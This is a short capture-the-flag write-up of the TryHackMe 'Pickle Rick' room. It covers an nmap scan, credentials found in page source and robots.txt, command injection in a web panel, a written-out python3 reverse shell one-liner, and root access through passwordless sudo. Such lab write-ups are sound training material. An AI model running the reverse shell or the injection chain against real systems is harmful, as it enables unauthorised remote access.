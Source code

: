 # [Pickle Rick](https://tryhackme.com/room/picklerick)

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name | Pickle Rick |
| Difficulty | Easy |
| Tags | crf, dirbuster, linux|

```bash
export IP=<Machine_IP>
```

---

```bash
nmap -vvv -sC -sV -A -v -oN nmap/initial.nmap $IP
```
---

## Nmap scan :
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a1:4e:a3:4e:5c:f2:0f:6e:8d:2e:a8:0c:3c:9f:d4:ee (RSA)
|   256 95:91:a8:d8:ab:e4:0e:a4:8d:b8:43:27:01:58:b2:c2 (ECDSA)
|_  256 b6:f3:eb:2d:f1:c2:bc:b3:6b:c8:da:50:49:ac:27:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Portal  Creds :
```
Got the username from the source code
Username: R1ckRul3s

Got the password from robots.txt
Password: Wubbalubbadubdub
```
## Portal (LOGIN)
```
Used gobuster dir to get the login page
MACHINE_IP/portal.php
```

## How did i get in ?
```
The portal page or the command panel was infected with command injection so
i tried to get a rev shell with nc but didint work so i tried python2 didint work
so i tried python3 and it worked, i uploaded linpeas for more information and found out that all users has ((NOPASSWD))
i got root using the command (sudo bash).  
```
## python3 reverse shell :
`
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MACHINE_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
`

## root :
`
sudo bash
`
